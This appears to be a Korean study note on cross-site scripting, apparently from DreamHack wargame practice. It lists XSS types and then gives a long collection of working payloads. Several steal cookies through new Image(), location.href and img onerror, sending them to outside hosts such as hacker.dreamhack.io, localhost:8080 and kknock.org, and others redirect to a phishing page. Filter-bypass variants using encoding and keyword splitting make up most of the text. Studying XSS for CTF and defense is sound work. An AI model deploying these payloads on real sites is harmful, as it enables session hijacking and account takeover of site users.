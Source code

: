 # 기본개념
웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행시킴
특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있음
SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌지만
이를 우회하는 다양한 기술이 소개되면서 XSS 공격은 지속되고 있음


# XSS 종류
Stored XSS
XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

Reflected XSS
XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

DOM-based XSS
XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
Fragment는 서버 요청/응답 에 포함되지 않음

Universal XSS
클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS


# 스크립트 예시
쿠키 및 세션 탈취 코드

```javascript
<script>
// "hello" 문자열 alert 실행
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근
document;
// 이용자의 페이지에 데이터를 삽입
document.write("Hacked By DreamHack !");
</script>
```


위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경
// 피싱 공격 등으로 사용됨
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기, 근데 잘 안되는 것 같음..
window.open("http://hacker.dreamhack.io/")
</script>
```


우회 코드
```javascript
<script>location.href="http://localhost:8080/?cookie="+document.cookie</script>
<img src=x onerror=this.src="http://localhost:8080/?cookie="+document.cookie>
<script>document.write("<img src=http://localhost:8080?cookie="+document.cookie+">")</script>
<script>document.write("<img style='display: none;' src=http://localhost:8080?cookie="+document.cookie+">")</script>
```


on, script, :javascript필터링 우회 시나리오
```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```


단순 공백 치환 우회는 이렇게 쉽게 우회할수 있음
location.href 처럼 어떤 객체의 속성값이 될 수 있다면 
document[location].href 이런식으로 더 노련하게 우회할 수 있음


# 주의할 점
<script src="/vuln?param=alert(1)"></script>와 
<script>location.href="/vuln?param=alert(1)"</script>는 동작이 다름

```chatgpt
<script src="/vuln?param=alert(1)"></script>: 이 코드는 /vuln?param=alert(1) URL에서 스크립트 파일을 로드하려고 시도합니다. 만약 웹 서버가 이 URL에 대한 스크립트 파일을 반환하면 브라우저는 해당 스크립트를 실행하고 alert(1)을 실행할 것입니다. 이는 XSS (Cross-Site Scripting) 공격의 일반적인 형태입니다.

<script>location.href="/vuln?param=alert(1)"</script>: 이 코드는 현재 페이지를 /vuln?param=alert(1)로 리다이렉트하는 JavaScript 코드입니다. 스크립트가 실행되면 현재 페이지의 URL이 /vuln?param=alert(1)로 변경되고, 브라우저는 이 URL로 이동하게 됩니다. 따라서 이 코드도 사용자에게 alert(1)을 실행시킬 수 있지만, 이것은 간접적인 방법으로 이루어지며 원래 페이지에서 다른 페이지로 이동하는 방식입니다.
```




# 실제 페이로드
### 더블 URL 인코딩 우회
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
\u003Cscript\u003Elocation.href="/memo?memo="+document.cookie\u003C/script\u003E
\u003C\u003E
%253Cscript%253Elocation.href="/memo?memo="+document.cookie%253C/script%253E

<svg/onload=location['hr'+'ef']='/memo?memo='+document['cookie']>
```

### img태그의 onerror
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" onerror="location.href('/memo?memo='+document.cookie);">
<img src="3" onerror="location.href('/memo?memo=' + document.cookie);">

<svg/onload=location.href="/memo?memo="+document.cookie>
<svg/onload=location["href"]="/memo?memo="+document["cookie"]>
```

# on, script, :javascript필터링

```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```

# 기본적인 태그 우회
```javascript
<img src="" onerror="alert()">
<scrIpt>alert();</scripT>
<img src="" &#x6f;nerror="alert()">
<img src=about: onerror=alert(document.domain)>
<svg src=about: onload=alert(document.domain)>
<body onload=alert(document.domain)>
<video><source onerror=alert(document.domain)></video>
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>
```

# hspace - turndown
https://github.com/mixmark-io/turndown/blob/master/src/turndown.js
```javascript
<script><script>location.href='https://kknock.org/'+document.cookie;<</script>/</script>script>
```
